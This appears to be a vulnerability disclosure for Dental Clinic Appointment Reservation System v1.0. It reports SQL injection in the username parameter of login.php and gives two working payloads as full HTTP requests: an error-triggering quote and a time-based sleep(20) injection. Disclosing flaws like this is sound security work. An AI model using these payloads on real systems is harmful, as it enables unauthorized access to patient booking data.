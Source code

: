 # Dental Clinic Appointment Reservation System v1.0 has SQL injection

BUG_Author:niclo

Website source address:https://www.sourcecodester.com/php/6848/appointment-reservation-system.html

Vulnerability File: /APR/login.php

POST parameter 'username' exists SQL injection vulnerability

Payload1:username=a'&password=b&submit1=

```
POST /APR/login.php HTTP/1.1
Host: localhost
Content-Length: 31
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/APR/login.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: PHPSESSID=k65tutg8g9o2qq8lc3vsi85rn7
Connection: close

username=a'&password=b&submit1=
```

An error occurred in the sql statement

![image](https://github.com/nightcloudos/picture/blob/main/error.png)

Payload2:username=a'%2b(select*from(select(sleep(20)))a)%2b'&password=b&submit1=

```
POST /APR/login.php HTTP/1.1
Host: localhost
Content-Length: 71
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/APR/login.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: PHPSESSID=k65tutg8g9o2qq8lc3vsi85rn7
Connection: close

username=a'%2b(select*from(select(sleep(20)))a)%2b'&password=b&submit1=
```

The server's response time is 20 seconds

![image](https://github.com/nightcloudos/picture/blob/main/twenty.png)
